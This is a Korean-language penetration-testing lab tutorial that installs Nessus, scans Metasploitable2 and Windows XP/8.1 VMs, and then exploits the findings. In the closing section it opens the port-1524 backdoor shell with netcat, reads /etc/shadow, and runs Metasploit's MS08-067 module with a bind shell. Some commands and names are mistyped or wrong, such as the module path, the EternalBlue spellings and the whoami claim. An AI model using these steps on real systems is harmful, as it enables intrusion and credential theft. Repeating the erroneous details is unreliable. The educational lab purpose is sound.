

# 취약점 분석


# 취약점 분석(Vulnerability Scanning)

## 1. 취약점 분석(Vulnerability Scanning) 이란?

: 타겟 시스템에 공격(Exploitation)을 수행하기 전 타겟 시스템의 취약점에 대한 정보를 얻어내는 과정.


### 1) Penetration Test Phases

- 정보 수집(Reconnaissance) : 타겟에 대한 예비 데이터나 정보를 수집하는 것
- 스캐닝(Scanning) : 실제 툴을 사용하여 타겟에 대해 더욱 자세한 정보를 얻고자 하는 것.
- 공격(Exploitation) : 타겟으로부터 데이터를 뽑아내거나 다른 타겟을 공격하기 위해 그 장치를 이용하는 등 네트워크 장치의 주도권을 빼앗아 오는 것.
- 후속 공격(Post-Exploitation) : 다음 사용을 위해 공격을 시행했던 장치의 주도권을 유지하거나 장치의 유용성을 판단하는 것.
- 흔적 지우기(Covering Tracks) : 공격자는 자신의 공격 흔적을 지워 호스트 네트워크 관리자로부터 들키지 않도록 한다.

⇒ 지금은 '스캐닝' 단계이다!


# Nessus

Nessus는 가장 유명한 취약점 분석 툴 중 하나이다.

우리가 사용할 것은 무료 버전인 Nessus Essentials.


## 1. Nessus Essentials 설치하기

이제까지와는 다르게, Nessus Essentials는 Kali Linux 환경에서 다운로드, 설치를 진행할 것이다.



우선 Kali Linux를 실행하고 웹 브라우저를 연다.

[https://www.tenable.com/products/nessus/nessus-essentials](https://www.tenable.com/products/nessus/nessus-essentials) 

에서 Nessus Essentials 최신 버전을 다운받을 수 있다.


debian amd64 버전을 다운받는다.

Save File을 선택하면 자동으로 Downloads 폴더에 저장된다.


이제 Nessus 설치를 시작해보자. 

root 계정으로 진입한 뒤, 다음과 같이 입력한다.

```
root@kali~# cd /home/kali/Downloads
root@kali:/home/kali/Downloads# ls
root@kali:/home/kali/Downloads# ls -al
root@kali:/home/kali/Downloads# dpkg -i [Nessus 파일이름.deb]
```

차례대로 위 커맨드를 입력하면 설치가 진행된다. 

성공적으로 설치가 되었다면 'You can start Nessus Scanner by typing /etc/init.d/nessusd start'라는 문구가 나올 것이다.


nessusd를 이용하여 Nessus를 사용할 수 있다고 하였으므로 다음과 같이 입력한다.]

```
root@kali~# service nessusd status
root@kali~# service nessusd start
root@kali~# netstat -tnlp 
```

nessusd가 실행되어있는지 상태를 확인한 후, inactive 상태라면 nessusd를 start 해준다.

그리고 nessusd가 제대로 적용되고 있는지 netstat -tnlp를 통해 확인한다.

※ netstat : tcp 통신을 진행중인 서비스의 연결 상태를 확인 가능.


위에서 나온대로 웹브라우저를 켜 0.0.0.0:8834 주소로 접속한다.

0.0.0.0:8834만 주소창에 입력하면 https 연결이 필요하다고 나올 테니 [https://0.0.0.0:8834](https://0.0.0.0:8834) 라고 입력하여 접속한다.

※ 0.0.0.0 말고 본인의 Kali IP 주소를 적어도 무방하다.

그러면 위와 같은 화면이 나오는데, Advanced를 클릭한 후 Accept the Risk and Continue를 눌러 접속을 진행한다.


그럼 이제 Nessus Essentials가 시작되는 것을 볼 수 있다.

이름과 이메일주소를 입력하고, 자신의 메일주소로 전송된 Activation Code를 입력창에 넣는다.


잠시 시간이 소요된 뒤, Nessus Essentials 창에 본격적으로 진입하였다. 


마지막으로 nessusd가 실행되어 있는지 확인하면 active(running)이라고 뜨는 것을 확인할 수 있다.

우리는 이제 이 Nessus를 이용해 취약점 스캐닝을 수행할 것이다.


## 2. Nessus로 취약점 스캐닝 시도하기

Nessus를 이용해 Metasploitable2, WindowsXp, Windows8.1 환경의 취약점들을 분석해 볼것이다.

우선, Kali에서 nessusd가 활성화 되어있는 지 확인하고, inactive 상태라면 nessusd를 시작해준다.

```
root@kali:~# service nessusd status
root@kali:~# service nessusd start
```

※ Nessus가 취약점을 분석하기 위해서는, 타겟 IP와 호스트 IP가 모두 같은 네트워크 상에 있어야 하고, 타겟이 되는 환경이 실행되어 있어야 한다.  스캐닝을 실행하기 전에 ping 테스트를 통해 서로 통신이 이어져 있는지 확인하고, Metasploitable2, WinXP/8.1 모두 실행한 채로 스캐닝을 시작하자!


nessusd가 active 되었다면, 웹 브라우저를 열어 Nessus 인터페이스 페이지로 접속한다.


Nessus에 로그인한 뒤, All Scans 탭에서 [New Scan]-[Advanced Scan]을 눌러 새로운 스캐닝을 시작한다.

위와 같이 Targets에 공격할 환경의 IP 주소를 적는다.

우리는 Metasploitable2, WindowsXP, Windows8.1의 IP 주소를 적어준다.


다음으로는 세팅을 해주는데, ASSESSMENT 탭에서 위와 같이 설정한다.


REPORT 탭에서는 위 사진을 참고한다.


ADVANCED 탭에서는 위 사진을 참고한다.


Settings 옆의 Credentials 에서는 위와 같이 설정해준다. 

Username과 Password는 모두 Metasploitable2와 같이 msfadmin으로 적어준다.


Plugins에서는 CISCO, F5 Networks~, Fedora~, Huawei~ 플러그인들을 해제해주고 Save 버튼을 누른다.


이제 Nessus 스캐닝 설정이 끝났다. 우측의 실행(Launch) 버튼을 눌러 스캐닝을 시작한다.


스캐닝이 진행된다.

셋 중 가장 취약한 환경인 Metasploitable2에서 취약점이 가장 많이 발견된 것을 알 수 있다.


## 3. 취약점 둘러보기

### 1) Metasploitable2 취약점

Metasploitable2는 셋 중 가장 취약한 환경인 만큼, 제일 많은 수의 취약점이 발견되었다. 

**[Critical]Bash Remote Code Execution** : 커맨드 인젝션에 취약한 Bash를 운영하는 원격 호스트이다. 시스템의 환경에 따라, 공격자는 원격으로 임의의 코드를 실행할 수 있다.

→ Bash를 업데이트하여 취약점을 해결할 수 있다.

※ Bash는 쉘(명령어 처리기)의 일종으로, # 형태의 프롬프트를 가진다.

**[Critical]Bind Shell Backdoor Detection** : 공격자가 원격 포트를 통해 인증 없이 연결을 하고, 커맨드를 직접 전송하여 사용할 수 있다.

→ 원격 호스트가 손상되었는지를 확인하고, 만약 필요하다면 시스템을 재설치한다.

※ 굉장히 유명한 취약점. 우리도 이 취약점을 사용할 것이다. 

- 백도어(Backdoor)란?   
	- Backdoor는 Trapdoor라고도 하는데, 시스템 설계자나 관리자가 고의로 남긴 시스템의 보안 허점이다. 본래 목적은 디버깅 시 개발자에게 인증 및 셋업 시간을 단축하기 위한 채널로 사용하기 위함이지만, 비양심적인 프로그래머가 악의적으로 사용할 경우 상당히 위험할 수 있다.   


**[Critical]VNC Server 'password' Password** : 원격 호스트에서 구동되는 VNC 서버는 약한 패스워드가 설정되어있다. 암호는 'password'이며, 이를 통해 로그인 및 서비스 제어를 할 수 있어 악용될 수 있다. 

→ VNC 서버에 더 강력한 패스워드를 설정한다.

**[INFO]RMI Registry Detection** : 원격 호스트가 Java RMI(자바 원격 메소드 호출) 시스템에서 단순한 이름의 원격 개체를 등록하고 검색하는 부트스트랩 명명 서비스 역할의 RMI 레지스트리를 구동한다.

※ Java RMI : 자바로 다른 머신간에 객체끼리 메시지를 교환할 수 있는 환경을 실현하기 위한 방법.

### 2) Windows XP 취약점

**[Critical]MS03-026** : 윈도우 RPC 서비스에서 TCP/UDP 135 포트 상의 DCOM RCP인터페이스를 통해 도용될 수 있는 버퍼 오버플로우 취약점을 이용한다. 이 취약점을 통해 공격자는 SYSTEM 권한을 가지고 원격으로 코드를 실행할 수 있다. 

→ Microsoft에서 배포한 패치를 적용한다. 

**[Critical]MS08-067** : 원격 윈도우 호스트는 부적절한 RPC 요청의 처리로 인해 '서버' 서비스의 원격 코드 실행 취약성의 영향을 받는다. 공격자는 조작된 RPC 요청을 통해 SYSTEM 권한으로 임의의 코드를 실행할 수 있다.

→ Miscrosoft에서 배포한 패치를 적용한다.

※ 우리는 이 취약점을 사용하여 여러차례 공격을 수행해 볼 것이다. 

### 3) Windows 8.1 취약점

**[HIGH]MS17-010** : Microsoft Server Message Block 1.0(SMBv1)에는 여러 원격 코드 실행 취약성이 있는데, 이는 특정 요청을 잘못 처리하며 발생하게 된다. 인증되지 않은 원격 공격자는 특수하게 조작된 패킷을 통해 이러한 취약성을 이용하여 임의 코드를 실행할 수 있다.

2017/04/14에 Shadow Broker로 알려진 이들이 몇가지 취약점을 공개하였다. ENVERNALBLUE, ENVERCHAMPION, ENVERNALSYERGY가 그것이다. WannaCry / WannaCrypt는 ENVERNALBLUE exploit을 활용한 랜섬웨어 프로그램이며, EvernantRocks는 7가지 EQUATION GROUP 취약점을 활용한 웜이다. Petya는 마이크로소프트 오피스의 취약점인 CVE-2017-0199를 먼저 활용한 뒤 ENVERTBLUE를 통해 전파하는 랜섬웨어 프로그램이다.

→ Miscrosoft에서 배포한 패치를 적용한다.

## 4. 취약점 스캐닝 결과를 이용하여 간단한 공격 수행하기

취약점 스캐닝(Vulnerability Scanning) 결과 여러 단계의 취약점들이 발견되었다. 

취약점의 단계는 다음과 같이 정리된다.

- Critical
- High
- Medium
- Low
- Info

Critical에 가까울수록 공격(exploitation)받기 쉽고, 시스템의 주도권을 빼앗기기 쉽다.

※ 실제로 취약점이 존재하지만 스캔 결과에 나오지 않는 경우가 있는데, 이러한 경우는 'False Negative(존재하는 오류를 부정)'라고 부른다. (반대로 'False Positive'는 존재하지 않는 오류가 있다고 진단하는 것이다. ex)스팸메일


### CRITICAL 이용


(1) 백도어 공격

우선, Metasploitable2에서 발견된 Critical 레벨의 취약점을 이용해 간단한 공격을 수행해보자.


Metasploitable2의 IP인 10.0.2.5를 클릭하여 스캔된 취약점들 목록으로 들어간다.

'Bind Shell Backdoor Detection'을 선택한다.


상세 페이지를 살펴보면 Backdoor에 관한 설명이 간략히 나와있다.


아래쪽 Port에서 포트번호 1524를 확인할 수 있다.


이제 터미널 창을 열어 Netcat을 이용해 타겟 포트의 연결을 확인해보자.

※ Netcat : TCP 또는 UDP를 사용하여 네트워크 연결을 읽고 쓰는 데 사용되는 컴퓨터 네트워킹 유틸리티.

```
root@kali:~# nc [Metasploitable2 IP주소] 1524 //netcat에 Metasploitable2의 IP와 포트번호를 입력.
root@metasploitable:/# whoami
root@metasploitable:/# ifconfig
```

netcat을 사용하면 Metasploitable의 shell을 얻을 수 있다는 것을 확인할 수 있다.

whoami 커맨드로 암호 정보를 알아내 우리는 root 권한을 가질 수 있게 된다.

그러면 ifconfig로 IP 정보를 확인할 수 있다.


우리는 root 권한을 가지게 되었기 때문에 우리가 원하는 어떤 것에도 접근이 가능하다.

예를 들어, 사용자의 패스워드의 hash 정보를 포함하고 있는 shadow 파일에 접근해보자.

```
root@metasploitable:/# cat /etc/shadow //shadow 파일에 접근하여 파일 내용을 출력
```


그러면 위와 같이 hash정보를 담은 shadow 파일의 정보들을 확인할 수 있다.


(2) Windows XP 공격

취약점 분석 결과창에서 윈도우 xp의 결과로 들어가보자

[MIXED]Microsoft Windows(Multiple Issues) > [CRITICAL]MS08-067

다음과 같은 취약점을 통해 공격을 할 것이다. 


상세설명 오른쪽아래에 Exploit할 수 있는 툴이 나와있다. 우리는 이 중 'metasploit'을 이용할 것이다. 


kali linux 커맨드 창에서 metasploit을 실행시키자

```
root@kali ~# msfconsole
```

취약점 분석을 통해 찾아낸 취약점에 대한 적절한 모듈을 메타스플로잇에서 검색한다. 

```
msf > search ms08-067
```


찾아낸 모듈을 사용하자 

```
msf > use exploit/winds/smb/ms08_067_netapi
```

'show payloads' 명령어를 통해 사용가능한 payloads들을 확인할 수 있다.

```
> show payloads
```


그 중 windows/shell/bind_tcp 을 사용한다.

```
> set payloads window/shell/bind_tcp
```

그리고 옵션을 열어 입력해줄 요소들을 확인한다.

```
> show options
```


module options에 목록들을 설정해준다.

```
> set RHOST 10.0.2.4 //rhost에는 공격할 대상의 IP를 입력한다.
```

RPORT가 올바르게 설정되어 있는지 확인하자 

nessus 취약점 분석 결과 페이지에서 ms08-067에 들어가면 port를 확인할 수 있다.

(445 로 되어있으면 올바르게 설정된 것)

이제 모든 설정이 완료되었으니 실행시켜 본다!

```
> run
```


타겟 시스템의 shell이 열렸다.

Exploitation이 성공했다.

```
C:\WINDOWS\system32> dir
C:\WINDOWS\system32> ipconfig //원래 Kali에서는 ifconfig를 사용하지만, 
					//여기서는 Windows Shell을 얻어냈으므로 ipconfig를 사용한다.
```


